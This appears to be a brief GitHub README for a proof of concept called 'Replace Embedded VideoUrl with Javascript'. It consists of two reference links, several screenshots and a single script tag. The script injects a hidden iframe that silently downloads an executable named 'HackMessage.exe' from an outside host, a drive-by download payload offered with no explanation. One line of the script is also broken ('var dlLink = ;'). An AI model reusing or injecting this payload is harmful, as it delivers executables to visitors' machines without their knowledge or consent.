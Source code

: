 # Replace Embedded VideoUrl with Javascript
https://www.ithome.com.tw/news/126688?fbclid=IwAR0HyC1Z6vtfm8BI-w75hNv7S3uTdF9VMP0k4XcFmwJnKjxuhEfO66ARybw
https://blog.darkthread.net/blog/ajax-download-with-iframe/
![](https://i.imgur.com/E31bw7j.png)

![](https://i.imgur.com/jFiuImE.png)

![](https://i.imgur.com/f6lFSw0.png)

![](https://i.imgur.com/hDk0dbx.png)

![](https://i.imgur.com/lcqSlY6.png)
```
<script>var dlLink = ;var $ifrm = $("<iframe style='display:none' />");$ifrm.attr('src', 'https://github.com/NotSurprised/ReplaceEmbeddedVideoUrlWithJavascript/raw/master/HackMessage.exe');$ifrm.appendTo("body");$ifrm.load();</script>
```